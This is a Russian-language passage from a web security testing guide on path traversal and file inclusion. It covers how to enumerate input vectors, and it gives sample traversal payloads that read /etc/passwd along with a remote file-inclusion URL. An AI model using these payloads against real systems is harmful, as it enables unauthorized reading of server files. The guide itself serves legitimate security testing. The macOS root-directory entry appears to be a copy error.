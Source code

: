 ## Как проверить

### Тестирование черного ящика

#### Input Vectors Enumeration

Чтобы определить, какая часть приложения уязвима для обхода проверки ввода, тестер должен перечислить все части приложения, которые принимают контент от пользователя. Это также включает в себя HTTP GET и POST запросы и общие параметры, такие как загрузка файлов и HTML-формы.

Вот несколько примеров проверок, которые будут выполнены на данном этапе:

- Существуют ли параметры запроса, которые можно использовать для операций, связанных с файлами?
- Есть ли необычные расширения файлов?
- Есть ли интересные имена переменных?
    - `http://example.com/getUserProfile.jsp?item=ikki.html`
    - `http://example.com/index.php?file=content`
    - `http://example.com/main.cgi?home=index.htm`
- Можно ли идентифицировать файлы cookie, используемые веб-приложением для динамического создания страниц или шаблонов?
    - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Методы тестирования

Следующим этапом тестирования является анализ функций проверки входных данных, присутствующих в веб-приложении. Используя предыдущий пример, динамическая страница с именем `getUserProfile.jsp` загружает статическую информацию из файла и показывает содержимое пользователям. Злоумышленник может вставить вредоносную строку `../../../../etc/passwd` включить хэш-файл пароля системы Linux / UNIX. Очевидно, что такого рода атака возможна только в случае сбоя контрольной точки проверки; в соответствии с привилегиями файловой системы само веб-приложение должно иметь возможность читать файл.

**Note:** Чтобы успешно проверить этот недостаток, тестер должен знать, какая система тестируется и где запрашиваются файлы. Нет смысла запрашивать `/etc/passwd` с веб-сервера IIS.

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

Другой распространенный пример - включение контента из внешнего источника:

```text
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```

То же самое можно применить к файлам cookie или любому другому входному вектору, который используется для динамического создания страниц.

Больше полезных нагрузок включения файла можно найти по адресу [PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

Важно отметить, что разные операционные системы используют разные разделители путей

- Unix-подобная ОС :
    - корневой каталог: `/`
    - directory separator: `/`
- Windows OS:
    - root directory: `<drive letter>:`
    - directory separator: `\` or `/`
- Classic macOS:
    - root directory: `<drive letter>:`
    - directory separator: `:`
